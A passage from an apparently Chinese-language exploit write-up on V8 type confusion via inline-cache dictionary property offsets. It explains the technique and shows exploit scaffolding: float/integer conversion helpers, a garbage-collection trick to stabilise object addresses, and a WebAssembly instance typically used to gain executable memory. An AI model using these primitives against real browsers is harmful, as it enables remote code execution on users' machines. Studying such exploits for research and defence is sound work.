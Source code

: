 2、由于IC（内联缓存），我们再一次执行时构造相同的object，DictionaryProperties中的偏移是相同的。

所以在一次利用中只要找到一对可以用于类型混淆的属性名就可以作为先验知识一直使用了。

我们可以通过构建一个对象，其中把属性名和属性值设置为有规律的键值对，在恶意构造的函数中，返回全部可读的Properties值，通过其值的规律性，可以找到一对在属性改变先后可以对应的属性名X1、X2，达到恶意函数返回a.x1，实质上是返回a.X2的目的，从而造成类型混淆。

```
const NUM_PROPERTIES = 32;
const MAX_ITERATIONS = 100000;
const buf = new ArrayBuffer(8);
const f64 = new Float64Array(buf);
const u32 = new Uint32Array(buf);
// Floating point to 64-bit unsigned integer
function f2i(val)
{ 
    f64[0] = val;
    let tmp = Array.from(u32);
    return tmp[1] * 0x100000000 + tmp[0];
}
// 64-bit unsigned integer to Floating point
function i2f(val)
{
    let tmp = [];
    tmp[0] = parseInt(val % 0x100000000);
    tmp[1] = parseInt((val - tmp[0]) / 0x100000000);
    u32.set(tmp);
    return f64[0];
}
// 64-bit unsigned integer to hex
function hex(i)
{
    return i.toString(16).padStart(16, "0");
}

// Garbage collection is required to move objects to a stable position in
// memory (OldSpace) before leaking their addresses.
function gc() {
    for (let i = 0; i < 100; i++) {
        new ArrayBuffer(0x100000);
    }
}

function wasm_func() {
    var wasmImports = {
        env: {
            puts: function puts (index) {
                print(utf8ToString(h, index));
            }
        }
    };
    var buffer = new Uint8Array([0,97,115,109,1,0,0,0,1,137,128,128,128,0,2,
        96,1,127,1,127,96,0,0,2,140,128,128,128,0,1,3,101,110,118,4,112,117,
        116,115,0,0,3,130,128,128,128,0,1,1,4,132,128,128,128,0,1,112,0,0,5,
        131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,146,128,128,128,0,2,6,
        109,101,109,111,114,121,2,0,5,104,101,108,108,111,0,1,10,141,128,128,
        128,0,1,135,128,128,128,0,0,65,16,16,0,26,11,11,146,128,128,128,0,1,0,
        65,16,11,12,72,101,108,108,111,32,87,111,114,108,100,0]);
    let m = new WebAssembly.Instance(new WebAssembly.Module(buffer),wasmImports);
    let h = new Uint8Array(m.exports.memory.buffer);
    return m.exports.hello;
}

func = wasm_func();

```